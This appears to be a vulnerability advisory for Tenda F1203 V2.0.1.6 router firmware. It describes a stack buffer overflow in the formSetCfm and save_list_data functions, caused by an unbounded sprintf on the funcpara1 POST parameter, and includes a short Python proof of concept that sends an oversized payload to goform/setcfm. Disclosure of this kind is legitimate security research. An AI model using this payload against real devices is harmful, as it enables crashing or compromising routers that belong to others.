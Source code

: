 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2494.html

## Affected version

F1203 V2.0.1.6

## Vulnerability details

The Tenda F1203 V2.0.1.6 firmware has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `v10` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(v10, "%s.list%d", a1, v6);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240319133131680](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133131680.png)

![image-20240319133412555](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133412555.png)

![image-20240319133403710](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133403710.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240319133536612](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133536612.png)